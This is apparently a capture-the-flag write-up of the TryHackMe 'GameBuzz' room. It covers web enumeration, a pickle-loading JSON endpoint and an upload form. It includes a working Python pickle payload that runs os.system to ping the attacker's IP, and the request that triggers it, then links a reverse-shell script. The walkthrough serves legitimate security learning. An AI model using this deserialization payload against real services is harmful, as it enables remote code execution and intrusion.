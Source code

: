 <h3> GameBuzz TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b8867ef-56a0-43e5-860d-f2453459c873)

Going over to the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/72c13526-255a-4bc4-ae0b-8d729902260d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/358c80bb-9bcd-49ff-9d4d-d22e05cf18b7)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/57414644-72f7-45a4-8ba3-b3ba4eb2e751)

Noticing the email *admin@incognito.com* we can deduct that the domain name is *incognito.com*

I'll add that to my */etc/hosts* file

Now poking around this web app i saw the *Game Rating* function
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/35f31582-8204-4839-a88f-ee25889b5252)

When you click it and then click game 1 with a proxy on this is what I got
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/73392813-ef46-4ce4-98e4-add3c1cfbfc9)

```json
{"object":"/var/upload/games/object.pkl"}
```

We can see that it's loading the object pickled file 🤔

Let's keep this in mind!

Now for more enumeration since we have the domain lets fuzz for sub domains 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a6783ee6-458f-4c0c-a655-c34d945fe539)

I got *dev* so i'll update my */etc/hosts* file with the new subdomain *dev.incognito.com*

Going over to the newly founded subdomain shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/406ca395-c76f-41f1-b11a-b2948a14d85a)

Checking */robots.txt* shows */secret*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2b6d8c8c-0285-4aec-bd2b-13f7bc04f112)

But after navigating to */secret* gives 403 forbidden
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/add9bbf8-6807-4155-ae7d-659b2488e247)

So I fuzzed for files there and got */upload*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c1966332-64c8-4382-8ed7-75c9343d5055)

Moving there shows an upload form 

Now this is good cause remember from the main domain we can call any pickled file and since we are opportuned to upload any file lets upload a pickle file

I made a script to make icmp callback to my host

```python
#!/usr/bin/python3
# Author: Hack.You
import os
import pickle

class Shell(object):
    def __reduce__(self):
        cmd = 'ping -c 5 10.2.42.156'
        return (os.system, (cmd,))

pickledData = pickle.dumps(Shell())
with open('payload.pkl', 'wb') as f:
    f.write(pickledData)

```

Running it creates the pickle file 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/3d67b081-9fbf-44dd-92bf-e90fb55d9253)

Now let upload the serialized payload
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/edb33e1e-ad19-4e34-b60f-101383fcac10)

I already setup *tcpdump* listening for icmp connection 

```bash
sudo tcpdump -i tun0 icmp
```

Since the file is already uploaded we can call it via the fetch endpoint on the main domain
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9419975b-ed4c-4d53-9eb0-cec23cc454d6)

```json
{"object":"/var/upload/payload.pkl"}
```

Back on tcpdump we get a hit 😄
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a0bdbe0-d147-4350-a9f5-de65e9ad368f)

Now lets get shell. Here's my payload [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/GameBuzz/pickle.py)

After running it and uploading it then using the fetch endpoint to load the pickle data I got shell
![Uploading image.png…]()

